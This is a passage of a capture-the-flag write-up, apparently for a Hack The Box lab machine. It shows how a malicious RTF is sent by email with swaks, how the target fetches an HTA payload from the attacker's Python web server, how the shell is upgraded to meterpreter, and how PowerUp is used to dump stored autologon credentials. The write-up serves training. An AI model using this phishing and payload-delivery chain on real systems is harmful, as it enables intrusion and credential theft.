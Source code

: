 The payload in powershell was generated using:
```bash
❯❯❯ iconv -t UTF-16LE <<< 'ping 10.10.14.65' | base64
cABpAG4AZwAgADEAMAAuADEAMAAuADEANAAuADYANQAKAA==
```

Then we serve this on port 8080 to be picked by the server:
```bash
❯❯❯ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

And we can send the `rev.rtf` file to the email we found using `swaks`:
```bash
❯❯❯ swaks -s "10.10.10.77" -p "25" -t "nico@megabank.com" -f "me@example.com" --header "Subject: foo" --body "this is a test" --attach rev.rtf
```

After some time, the file is processed, the `custom.hta` is downloaded from the python webserver and pings are visible in Wireshsark.

To upgrade to meterpreter shell I used VBSMeter found here <https://github.com/Cn33liz/VBSMeter>, just as described in the readme. And we get a shell that allows to gain the user flag:
```
C:\Users\nico\Desktop>type user.txt
type user.txt
fa363aebcfa2c29897a69af385fee971
```

## Privilege escalation
Having a meterpreter shell is only the beginning. We want PowerShell for this machine. We can get interactive powershell thanks to meterpreter extensions. The procedure is explained here <https://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension>. Summarized it gives:
```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_import PowerSploit/Privesc/PowerUp.ps1
[+] File successfully imported. No result was returned.
meterpreter > powershell_shell
PS>
```

In the process I've imported the PowerUp module from PowerSploit <https://github.com/PowerShellMafia/PowerSploit>. We can easily run all checks and see if something could be exploited:
```
PS > Get-RegistryAutoLogon

DefaultDomainName    : HTB
DefaultUserName      : nico
DefaultPassword      : 4dri@na2017!**
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
```
